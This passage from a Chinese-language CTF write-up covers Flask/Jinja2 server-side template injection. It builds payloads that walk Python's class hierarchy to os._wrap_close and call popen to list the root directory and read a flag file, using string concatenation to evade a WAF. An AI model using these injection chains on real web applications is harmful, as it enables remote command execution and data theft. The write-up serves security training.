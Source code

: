 [![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174709-2c443062-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174709-2c443062-bd3e-1.png)

有了对象基类，我们就可以通过访问 `__subclasses__` 方法再实例化去访问所有的子类。同样使用字符串拼接绕过WAF，这样就实现沙箱逃逸了。

payload：

{{session\['__cla'+'ss__'\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\]\['__subcla'+'ss__'\]()}}

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174712-2e0adcc0-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174712-2e0adcc0-bd3e-1.png)

SSTI目的无非就是两个：文件读写、执行命令。因此我们核心应该放在file类和os类。而坑爹的是，Python3几乎换了个遍。因此这里得去看官方文档去找相应的基类的用处。

我还是从os库入手，直接搜索“os”，找到了 `os._wrap_close` 类，同样使用dict键访问的方法。猜大致范围得到了索引序号，我这里序号是312，

payload：

{{session\['__cla'+'ss__'\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\]\['__subcla'+'sses__'\]()\[312\]}}

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174713-2ea589fa-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174713-2ea589fa-bd3e-1.png)

我们调用它的 `__init__` 函数将其实例化，然后用 `__globals__` 查看其全局变量。

payload：

{{session\['__cla'+'ss__'\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\]\['__subcla'+'sses__'\]()\[312\].\_\_init\_\_.\_\_globals\_\_}}

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174716-305bbc9c-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174716-305bbc9c-bd3e-1.png)

眼又花了，但我们的目的很明显，就是要执行命令，于是直接搜索 “popen” 就可以了：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174717-30f4321a-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174717-30f4321a-bd3e-1.png)

由于又是一个dict类型，我们调用的时候又可以使用字符串拼接，绕过open过滤。

后面顺理成章的，我们将命令字符串传入，实例化这个函数，然后直接调用read方法就可以了。

payload：

{{session\['__cla'+'ss__'\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\]\['__subcla'+'sses__'\]()\[312\].\_\_init\_\_.\_\_globals\_\_\['po'+'pen'\]('ls /').read()}}

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174718-318fa952-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174718-318fa952-bd3e-1.png)

{{session\['__cla'+'ss__'\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\].\_\_bases\_\_\[0\]\['__subcla'+'sses__'\]()\[312\].\_\_init\_\_.\_\_globals\_\_\['po'+'pen'\]('cat /Th1s\_\_is\_S3cret').read()}}

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174719-3222536a-bd3e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20210525174719-3222536a-bd3e-1.png)

### \[NCTF2018\]Flask PLUS
